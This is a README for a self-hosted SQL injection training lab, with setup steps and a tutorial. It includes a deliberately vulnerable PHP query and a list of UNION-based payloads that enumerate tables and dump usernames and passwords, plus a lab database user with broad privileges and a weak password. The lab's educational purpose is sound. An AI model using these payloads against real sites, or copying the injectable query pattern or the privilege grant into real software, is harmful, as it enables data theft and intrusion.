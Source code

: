 # SQL Injection Training Lab
 
This is a simple SQL Injection Lab. This installation requires small usage of storage and no special tools installation. You just need an Apache and PHP installed in your machine, then you can run this lab to learn performing SQL Injection.

SQL Injection (a.k.a sqli) is one of the most dangerous and popular cyber attack where it start with leaking data (SQL database) to take control of the server, change or delete the data or create a fake data.

This SQLi technique only works on SQL Database like MySQL (includes MariaDB), Oracle, Microsoft SQL Server and other SQL Databases. Even the noSQL Database has risen in popularity and trust, but yet, SQL Database is still in world wide industry which make SQLi attack is still relevence untill today.

Learning SQLi is easy and important especially if you work as programmer or developer, you will need this knowledge to see if your developed systems are secured or not.

# How to Install?
The installation of this lab is simple. You need an Apache Server and PHP installed! If you new to this, follow this thorough steps:

## For Windows:
1. Install XAMPP (PHP 7.4 minimum)
2. Start your XAMPP Control Panel and click start on Apache & MySQL
3. Go to "http://localhost/phpmyadmin"
4. Click on "New" on top left menu
5. Insert database name "sqli_lab"
6. Download this Github Repos and extract in "C:/xampp/htdocs"
7. Go to "http://localhost/SQL-Injection-Training-Lab"
8. Click on "Submit", then you are good to go

## For Linux
1. Install Apache `apt install apache2`
2. Install MySQL (search Google for the step depend on your linux version)
3. Install PHP `apt install php`
4. Install PHPMyAdmin (optional) `apt install phpmyadmin`
5. Start Apache & MySQL `service apache2 start` & `service mysql start`
6. Login to MySQL `sudo mysql -u root`
7. Create a new database named sqli_lab `CREATE DATABASE sqli_lab;`
8. Create database user (optional)
```
CREATE USER 'sqli'@'localhost' IDENTIFIED BY 'password';
GRANT ALL PRIVILEGES ON *.* TO 'sqli'@'localhost' IDENTIFIED BY 'password';
FLUSH PRIVILEGES;
```
(SQL Command might differs depend on your MySQL version)

9. Go to "http://localhost/SQL-Injection-Training-Lab"
10. Insert your created database user "sqli" with password "password"
11. Click on "Submit", then you are good to go

##  Notes
If you are using Kali Linux, you can start with step 6 on Linux steps.

# Basic SQL Injection
SQLi happens when user input is not filtered/sanitize and used directly in the SQL Query. Example (in PHP):
```
$id = $_GET["id"];

$sql = "SELECT * FROM users WHERE id = '$id'";
$query = mysqli_query ...
```
The variable `$id` stored non-filtered/sanitize values take from `$_GET`. This means that the input `id` can be used to break the SQL Query inside PHP code.

## What is Payload?
Payload means the input used to manipulate the SQL Query. Most common used "payload" to check wheter the URL or site is open to SQLi or not is using single quote `'` or double quote `"` after the `id` parameters. Example:

http://unsecure-web.com/SQL-Injection-Training-Lab/index.php?id=1

Hackers will put `'` or `"` like this:

http://unsecure-web.com/SQL-Injection-Training-Lab/index.php?id=1'

Or

http://unsecure-web.com/SQL-Injection-Training-Lab/index.php?id=1"


The use of `'` or `"` is to end a comparison statement in the SQL Query. Example:
```
//without quote(s)
...
$sql = "SELECT * FROM users WHERE id = '1'";

//with quote
...
$sql = "SELECT * FROM users WHERE id = '1''" 
```
The above code shows that there will be an addtional `'` character after the input which makes the SQL Query broke. This means the quote `'` is working for current attack because the SQL Query uses the same single quote as our payload.

This payload is not stop on the quotes, it can be elaborate untill we can insert a complete SQL Query in the input. Here's few example how the payload is elaborated:
```
...index.php?id=1'

//commenting the other SQL after the input
...index.php?id=1'--+

...index.php?id=1'+order+by1--+
...index.php?id=1'+union+all+select+1,2,3,4,5--+
...index.php?id=-1'+union+all+select+1,2,3,4,5--+

//List all table in current database
...index.php?id=-1'+union+all+select+1,group_concat(table_name),3,4,5+from+information_schema.tables+where+table_schema=database()--+

//List all column in specific table
...index.php?id=-1'+union+all+select+1,group_concat(column_name),3,4,5+from+information_schema.columns+where+table_schema=database()+and+table_name='tbl_users'--+

//List all data in specific table
...index.php?id=-1'+union+all+select+1,group_concat(username),group_concat(password),4,5+from+tbl_users--+
```
These above is the basic payload we can use to perform a SQLi attack. There are more payload can be created depend on how strong is you knowledge on SQL Command.

# How to Learn from this repos?
This repos are created for our MyOPECS (Malaysia Open Cyber Security) Training. If you are a Malaysian and can speak Malay, then you can watch my videos on YouTube or follow our weekly hacking training every Thurday night Live on TikTok.

If you are not fit in the criteria above, then you can keep reading the README.md in every folder from Level A-N. (will be updated from time to time)
